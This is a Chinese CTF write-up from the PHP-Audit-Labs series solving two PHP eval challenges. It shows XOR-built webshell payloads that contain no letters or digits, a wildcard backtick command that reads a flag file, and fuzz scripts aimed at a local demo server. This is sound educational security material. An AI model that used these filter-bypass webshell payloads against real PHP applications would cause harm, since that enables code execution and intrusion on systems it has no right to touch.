

## Day8题解：(By 七月火)

**Day8** 的题目来自8月份 **金融业网络安全攻防比赛** ，写题解的时候发现 **信安之路** 已经写了很好的题解，具体可以点 [这里](https://mp.weixin.qq.com/s/fCxs4hAVpa-sF4tdT_W8-w) ，所以接下来我只会提及关键部分。

**第1道题目如下** ：



这道题目实际上是考察不包含字母数字的webshell利用，大家可以参考 **phithon** 师傅的文章：[一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html) ，我们只需要构造并调用 **getFlag** 函数即可获得flag。排除这里正则的限制，正常的想法payload应该类似这样（把上图代码中的正则匹配注释掉进行测试）：

```php
index.php?code=getFlag();
index.php?code=$_GET[_]();&_=getFlag
```



我们现在再来考虑考虑如何绕过这里的正则。游戏规则很简单，要求我们传入的 **code** 参数不能存在字母及数字，这就很容易想到 **phithon** 师傅的 [一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html) 一文。通过异或 **^** 运算、取反 **~** 运算，构造出我们想要的字符就行。这里我们直接看 **payload** ：

```php
?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=getFlag
```

我们来拆解分析一下 **payload** ，**eval** 函数会执行如下字符串：

```php
$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=getFlag
拆解如下：        第1个GET请求参数：code                &     第2个GET请求参数：_
   $_="`{{{"^"?<>/";         ${$_}[_](${$_}[__]);     &     _=getFlag
   $_="_GET";                $_GET[_]($_GET[__]);     &     _=getFlag
                             getFlag($_GET[__]);
                             getFlag(null);
```

这个 **payload** 的长度是 **37** ，符合题目要求的 **小于等于40** 。另外，我 **fuzz** 出了长度为 **28** 的 **payload** ，如下：

```php
$_="{{{{{{{"^"%1c%1e%0f%3d%17%1a%1c";$_();
```



这里也给出 **fuzz** 脚本，方便大家进行 **fuzz** 测试：

```php
<?php
$a = str_split('getFlag');
for($i = 0; $i < 256; $i++){
    $ch = '{'^ chr($i);
    if (in_array($ch, $a , true)) {
        echo "{ ^ chr(".$i.") = $ch<br>";
    }
}
echo "{{{{{{{"^chr(28).chr(30).chr(15).chr(61).chr(23).chr(26).chr(28);

?>
```



后来在安全客看到一种新的思路，也很不错，具体参考：[CTF题目思考--极限利用](https://www.anquanke.com/post/id/154284) 。这篇文章主要是 **利用通配符调用Linux系统命令** 来查看 **flag** ，关于通配符调用命令的文章，大家可以参考： [web应用防火墙逃逸技术（一）](https://www.anquanke.com/post/id/145518) 。

我们来分析安全客这篇文章中的payload：

```php
$_=`/???/??? /????`;?><?=$_?>
实际上等价于：
$_=`/bin/cat /FLAG`;?><?=$_?>
```

这里我想说一下 **<?=$_?>** 这个代码的意思。实际上这串代码等价于 **<? echo $_?>** 。实际上，当 **php.ini** 中的 **short_open_tag** 开启的时候， **<? ?>** 短标签就相当于 **<?php ?>** ， **<?=$_?>** 也等价于 **<? echo $_?>** ，这也就解决了输出结果的问题。下面我们再来看第二道题目。

**第2道题目如下** ：



这道题目实际上和上面那道题目差不多，只是过滤了一个下划线 **_** 而已，我们可以用中文来做变量名：

```php
$哼="{{{{{{{"^"%1c%1e%0f%3d%17%1a%1c";$哼();
```



当然，我们也可以 **fuzz** 可用的 **ASCII** 做变量名，**fuzz** 代码如下：

```python 
import requests
for i in range(0,256):
    asc = "%%%02x" % i
    url = 'http://localhost/demo/index2.php?code=$%s="{{{{{{{"^"%%1c%%1e%%0f%%3d%%17%%1a%%1c";$%s();' % (asc,asc)
    r = requests.get(url)
    if 'HRCTF' in r.text:
        print("%s 可用" %asc)
```



可以看到此时 **payload** 长度为 **28** 。当然还有其他 **payload** ，例如下面这样的，原理都差不多，大家自行理解。

```php
$呵="`{{{"^"?<>/";${$呵}[呵](${$呵}[呵]);&呵=getFlag
```
## 总结

我们的项目会慢慢完善，如果大家喜欢可以关注 [ **PHP-Audit-Labs** ](https://github.com/hongriSec/PHP-Audit-Labs) 。大家若是有什么更好的解法，可以在文章底下留言，祝大家玩的愉快！